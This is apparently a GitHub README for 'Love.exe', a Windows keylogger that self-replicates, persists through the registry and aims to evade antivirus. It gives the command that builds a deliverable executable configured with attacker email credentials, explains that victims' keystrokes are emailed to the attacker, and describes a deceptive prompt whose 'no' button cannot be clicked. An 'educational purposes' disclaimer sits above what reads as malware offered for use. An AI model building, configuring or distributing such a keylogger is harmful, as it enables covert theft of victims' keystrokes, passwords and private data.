



# Love.exe

-  !! I am not responsible for the misuse of Love.exe, I did it for educational purposes ¡¡

- Love is a keylogger virus that self-replicates in the system and implants itself in the registry to resume its operation when the computer is turned on. The idea in the future is to become invisible to the Windows antivirus. Thanks to Evil_love.sh we can configure this file of raw love and prepare it to be sent.

- so...

		./Evil_love.sh emitter_example@gmail.com receiver_example@gmail.com passwordexampple1

	
- The result here is that the .exe file was created ready to be sent, when the keylogger is working you will receive a text file with all the victim's keystrokes in the email that you set as the recipient, something similar to this:

	

- When you start Love.exe for the first time, the following window appears whose "no" button is impossible to press since it escapes the cursor. When you press "yes" the keylogger starts, this window is only shown the first time the virus starts , after that it is not shown again:

